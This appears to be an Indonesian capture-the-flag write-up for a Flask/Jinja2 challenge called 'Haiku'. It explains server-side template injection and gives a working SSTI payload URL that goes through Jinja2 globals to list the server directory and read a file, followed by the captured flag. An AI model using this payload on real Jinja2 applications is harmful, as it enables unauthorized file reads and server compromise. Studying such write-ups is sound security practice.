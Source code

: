 # **Haiku**
SSTI (Server-Side Template Injection) adalah sebuah kerentanan keamanan yang terjadi ketika serangan injeksi terjadi pada logika template yang dievaluasi di sisi server. Dalam konteks aplikasi web, biasanya ada mesin template yang digunakan untuk menghasilkan tampilan halaman web dengan menggabungkan template (pola) dengan data yang diterima dari pengguna atau sumber eksternal.

SSTI terjadi ketika serangan injeksi memungkinkan penyerang untuk menyisipkan kode atau instruksi yang akan dievaluasi oleh mesin template di sisi server. Hal ini dapat memungkinkan penyerang untuk mengakses atau memanipulasi data, menjalankan perintah sistem, atau bahkan merusak keamanan aplikasi secara keseluruhan.

## **About the challenge**
Pada Challenge kali ini, Probleset memberikan Website yang dibuat dan dijalankan menggunakan Flask dan templatenya menggunakan Jinja2. Ada banyak filter yang digunakan pada website ini ( Probleset Ngasih filternya ga wajar, diluar nayla, ga habis fikri, membuat pemain ga bisa tidur nyenyak ).

![haiku](./image/haiku.PNG)
## **Solution**
Setelah saya telusuri websitenya, hanya beberapa kata/karakter yang digunakan sehingga menyulitkan untuk disolve. saya mencoba membuat sebuah code yang didapat dari directory web tersebut. Dan dibawah ini kode yang dapat memecahkan challenge ini : 
```
http://103.167.136.89:10001/{{get_flashed_messages.__globals__.send_file(lipsum.__globals__.os.listdir().pop(1)).response.file.read()}}
```
And we got flag
```
ForestyHC{roses_are_red_violets_are_blue_b34b48}
```
NOTE : Challenge ini bukan pure saya yang ngerjain sendiri, dibantu dengan adanya usaha kating RKS saya :)
